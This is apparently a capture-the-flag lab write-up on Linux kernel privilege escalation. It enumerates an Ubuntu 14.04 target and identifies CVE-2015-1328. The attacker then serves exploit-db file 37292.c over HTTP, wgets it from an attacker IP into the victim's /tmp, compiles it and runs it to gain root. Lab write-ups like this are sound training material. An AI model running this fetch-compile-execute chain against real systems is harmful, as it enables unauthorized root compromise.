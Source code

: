 ```
$ cat /proc/version
Linux version 3.13.0-24-generic (buildd@panlong) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014
```
What Linux is this?
```
$ cat /etc/os-release
NAME="Ubuntu"
VERSION="14.04, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```
What version of the Python language is installed on the system?
```
$ python --version
Python 2.7.6
```
What vulnerability seem to affect the kernel of the target system? (Enter a CVE number?
```
CVE-2015-1328
```

# Task05-Exploiting kernel
Login to the remote server and identify the kernel with its version
```
cat /proc/version
Linux version 3.13.0-24-generic (buildd@panlong) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014
```
Search for linux kernel 3.13 on exploit.db and dowload the exploit. (It is in C language)
Copy it to  your current directory.
```
┌──(kali㉿kali)-[~/Desktop/THM/linux_privesc]
└─$ cp /home/kali/Downloads/37292.c .
```
Start a python server on that directory.
```
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Download the exploit into victim's /tmp directory with following commands.
```
cd /tmp
wget http://10.13.95.14:8000/37292.c

## Then we need to make a compiler to run the downloaded c file. We use the **gcc** command to compile. `gcc 37292.c -o 37292` tells the GNU C compiler to **compile** the C source file `37292.c` and **write the resulting executable** to a file named `37292`.

gcc 37292.c -o 37292

# Simply run it
./37292

# Then check are we really a root user by running
whoami
id

# Search for a flag1.txt
```